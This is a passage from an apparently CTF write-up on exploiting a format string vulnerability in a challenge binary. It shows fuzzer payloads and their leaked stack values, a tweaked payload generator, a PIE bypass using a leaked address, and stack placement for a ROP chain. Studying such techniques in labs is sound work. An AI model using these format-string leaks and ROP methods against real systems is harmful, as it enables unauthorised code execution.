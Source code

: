 ```console
Sending payload : b'%12$#lX*************AAAABBBB'.....b'0X7FFDEFEA4930'
Sending payload : b'%13$#lX*************AAAABBBB'.....b'0X5578359BB4D1'
Sending payload : b'%14$#lX*************AAAABBBB'.....b'0X200001000'
Sending payload : b'%15$#lX*************AAAABBBB'.....b'0X92C78EE688CCF300'
Sending payload : b'%16$#lX*************AAAABBBB'.....b'0X1'
Sending payload : b'%17$#lX*************AAAABBBB'.....b'0X7FBCBD229D90'
Sending payload : b'%18$#lX*************AAAABBBB'.....b'0'
Sending payload : b'%19$#lX*************AAAABBBB'.....b'0X5578359BB462'
[*] Stopped process './challenge' (pid 3744238)
```

Clearly our desired 8 bytes are located at 8th argument, but since it's not aligned perfectly, the following changes can be made in the fuzzer:
```py
...
def generate_payload(i):
    end = 'AAAABBBB'
    end += '****'
    string = ''.join( '%{:02d}$#lX'.format(i) )
...
```

```console
$ python fuzzer.py
[+] Starting local process './challenge': pid 4060707
...
Sending payload : b'%08$#lX*********AAAABBBB****'.....b'0X4242424241414141'
...
[*] Stopped process './challenge' (pid 4060707)
```

Much better. Now I write an exploit script but it fails because of the following two reason:
1. Despite the ROP chain being on stack, the `RIP` simply returns to `main+111` and back to `vuln`, so practically it never reaches our payload.
2. Due to some reason after every `printf` call in `vuln` 0x00000002 was being overwritten to the higher nibble of the first gadget ( just below return pointer ). This meant that by the time the entire ROP chain is written on the stack, it is already corrupted.

To fix this I write the ROP chain further 8 bytes down. So the scene is something like this:
```
+----------------------+ <-- SAVED RET POINTER
|  SAVED RET POINTER   |
|----------------------| <-- (SAVED RET POINTER) + 8
| 0X00000002 overwrite |
|----------------------| <-- (SAVED RET POINTER) + 16
|    ROP starts here   |
|          ...         |
```

This solves problem 2 however problem 1 still persists. To solve that I decided to further complicate it by leaking another value from the program. This one is `%13$#lX`, this is actually from the binary itself and can be used to calculate the base address of our binary as runtime ( defeating `PIE` ). The reason for doing so is that, now we have access to not only gadgets from libc but from the original binary itself. It gets important because of what we are about to do next. We use tools like `ROPgadget` to search for a specific gadget *( will be explained later )*.
```console
$ ROPgadget --binary challenge | grep ": pop .* ; ret$"
0x0000000000001223 : pop rbp ; ret
```
